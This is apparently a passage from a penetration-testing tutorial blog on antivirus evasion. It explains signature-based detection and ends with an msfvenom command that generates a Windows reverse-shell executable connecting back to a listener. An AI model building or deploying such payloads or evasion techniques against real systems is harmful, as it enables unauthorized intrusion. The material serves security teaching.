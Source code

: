 If you want to check all the CTFs I have made so far, here you can: **[Alex's PwnLab CTFs](https://amtzespinosa.github.io/ctf/)**

## 1. Antivirus Evasion

### How It Works (Briefly)

Briefly explained, antivirus systems are mostly considered a *blacklist technology*, where known signatures of malware are searched for on the file system and quarantined if found. With this in mind, bypassing antivirus software is a relatively easy task with the correct tools. 

The process involves changing or encrypting the contents of a known malicious file to change its **binary structure**. By doing so, the known signature for the malicious file is no longer relevant and the new file structure may fool the antivirus software into ignoring this file. 

Depending on the type and quality of the antivirus software being tested, sometimes an antivirus bypass can be achieved by simply changing a couple of harmless strings inside the binary file from uppercase to lowercase. As different antivirus software vendors use different signatures and technologies to detect malware and keep updating their databases on an hourly basis, it’s usually hard to come up with an ultimate solution for antivirus avoidance and quite often the process is based on trial and error in a test environment.

For this reason, **the presence, type, and version** of any antivirus software should be identified before uploading files to the target machine. If antivirus
software is found, it would be wise to gather as much information as possible about it and test any files you wish to upload to the target machine in a lab environment.

The process of avoiding antivirus signatures by manually editing the binary file requires a deeper understanding of the **PE file structure** and **assembly programming** -
and therefore is beyond the scope of this module. However, we have several tools available in **Kali Linux** that can help us bypass antivirus software. Let’s explore
these tools and test their effectiveness against a variety of antivirus software vendors.

### Manual AV Evasion

Let's explain this complex side of Pentesting with a simple PoC - so simple that I would say it's an insult to this complex and extense discipline. To make this as simple as posible we won't be setting up a complete enviroment with a proper antivirus - we're going to use **[VirusTotal](https://www.virustotal.com/gui/home/upload)**.

> **VIRUSTOTAL** 
>
> With **VirusTotal** you can analyse suspicious files, domains, IPs and URLs to detect malware and other breaches, automatically share them with the security community. 
{: .prompt-tip }

This way, we are using **VirusTotal** as our malware database and analyzer to see what comercial antivirus software would detect our malware after different attempts to obfuscate it. Let's start by making a *raw* reverse shell: a simple virus with no encoding, no obfuscation, no nothing using **msfvenom**.

```bash
sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.0 LPORT=4444 -f exe -o shell_reverse.exe
```
